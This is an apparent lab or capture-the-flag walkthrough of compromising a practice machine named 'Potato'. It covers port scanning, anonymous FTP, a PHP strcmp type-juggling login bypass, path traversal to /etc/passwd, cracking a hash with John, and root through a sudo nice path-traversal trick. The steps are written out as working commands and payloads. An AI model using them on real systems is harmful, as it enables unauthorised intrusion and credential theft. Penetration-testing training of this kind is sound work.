



## Nmap

```bash
nmap -Pn -p- --open 192.168.141.101     
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 19:15 +0000
Nmap scan report for 192.168.141.101
Host is up (0.097s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip

Nmap done: 1 IP address (1 host up) scanned in 38.93 seconds
                                                                                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/oscp/loly]
└─$ nmap -A -T4 -p 22,80,2112 --open 192.168.141.101
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 19:17 +0000
Nmap scan report for 192.168.141.101
Host is up (0.093s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

## FTP

```bash
ftp anonymous@192.168.141.101 2112

#Download Files
mget *

# Inspect files
cat index.php.bak 

#Results
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>

```
```bash
#Poss username and password:
admin:potato
# Also strcmp() which is vurlnerable to a PHP Juggling Attack
```

## Directory Enumeration

```bash
feroxbuster -uhttp://192.168.141.101 -s 200 -t 200 --scan-dir-listings

#Results
[#########>----------] - 57s    13950/30000   244/s   http://192.168.141.101/admin/ 
[######>-------------] - 39s     9190/30000   234/s   http://192.168.141.101/admin/logs/ 
```

## Login page 


```bash
admin:potato

#Failed
```


```bash
#Abuse strcmp()
admin:password[]=
```

## Logged in


## Directory Traversal

```bash
#NOTE: Abuse File= context
# Replace log_02.txt with:
file=../../../../../../../../../../../../../../../../../../../../../etc/passwd

#webadmin hash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```


## Crack Hash

```bash
nano web_admin_hash.txt

# Paste Hash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

# Run John
john web_admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

webadmin:dragon
```

## SSH as Webadmin

```bash
ssh webadmin@192.168.225.101

#Password
dragon

#Grab Local Flag
```

## Priv Esc

```bash
sudo -l

#Results

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*

# This means you can run sudo as Root in the /notes/ directory.
```
## Abuse sudo -l

```bash
sudo /bin/nice /notes/../bin/bash

# Root Achieved
# Grab proof.txt
```
